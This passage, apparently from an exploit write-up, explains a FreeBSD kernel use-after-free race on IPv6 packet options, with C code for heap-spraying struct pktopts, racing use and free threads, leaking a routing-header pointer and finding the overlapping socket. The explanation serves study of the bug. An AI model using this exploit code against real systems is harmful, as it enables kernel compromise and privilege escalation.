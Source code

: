 Next, it writes a helper function to 'leak' (here the leak is not actually a leak as it is just a simple read of the value returned from `getsockopt()` (i.e. so far it is "legal").
```c
static uint64_t leak_rthdr_ptr(int s) {
  char buf[0x100];
  get_rthdr(s, buf, sizeof(buf));
  return *(uint64_t *)(buf + PKTOPTS_RTHDR_OFFSET);
}
```
### Exploit strategy 
First, the exploit "sprays" the heap with a lot of `struct pktopts`'s so that in thread2 we can free and reallocate many of these structs at once: why must we do this? 
Usually the chance of a race working is very small. Thus if we fill let's say a GB of space with our structs and try to free them all, it is likely that one might end up triggering the race condition. This is much faster than trying with once single `struct pktopt`.
```c
static int spray_pktopts(void) {
  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    set_tclass(spray_sock[i], TCLASS_SPRAY);
  if (get_tclass(master_sock) == TCLASS_SPRAY)
    return 1;	
    // Our race worked! The master (victim) has this class
    // meaning the two point to the same object.
  for (int i = 0; i < NUM_SPRAY_RACE; i++)
    free_pktopts(spray_sock[i]);
  return 0;
}
```
The above function is called by a wrapper function called `trigger_uaf()`:
```c
static int trigger_uaf(void) {
  pthread_t th[2];
  pthread_create(&th[0], NULL, use_thread, NULL);
  pthread_create(&th[1], NULL, free_thread, NULL);
  while (1) {
    if (spray_pktopts())
      break;
#ifndef FBSD12
    usleep(100);
#endif
  }
  triggered = 1;
  pthread_join(th[0], NULL);
  pthread_join(th[1], NULL);
  return find_overlap_sock();
}
```
`find_overlap_sock()` just modifies the victim and checks which of the sprayed sock's have been modified:
```c
static int find_overlap_sock(void) {
  char buf[sizeof(struct in6_pktinfo)];
  write_to_victim(pktopts_addr + PKTOPTS_PKTINFO_OFFSET);
  for (int i = 0; i < NUM_SPRAY; i++) {
    get_pktinfo(spray_sock[i], buf);
    if (*(uint64_t *)(buf + 0x00) != 0)
      return i;
  }
  return -1;
}
```
